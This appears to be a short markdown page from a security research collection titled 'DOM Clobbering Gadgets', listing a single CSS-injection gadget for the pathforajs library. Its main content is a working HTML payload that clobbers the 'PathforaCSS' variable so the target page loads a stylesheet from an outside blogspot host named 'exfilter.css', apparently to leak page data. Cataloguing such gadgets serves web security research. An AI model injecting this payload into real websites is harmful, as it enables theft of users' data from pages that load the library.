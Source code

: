 # DOM Clobbering Gadgets

## CSS Injection: 
1. CSS Injection on pathforajs : `<a id=PathforaCSS href=https://eelmahdi.blogspot.com/exfilter.css></a>`
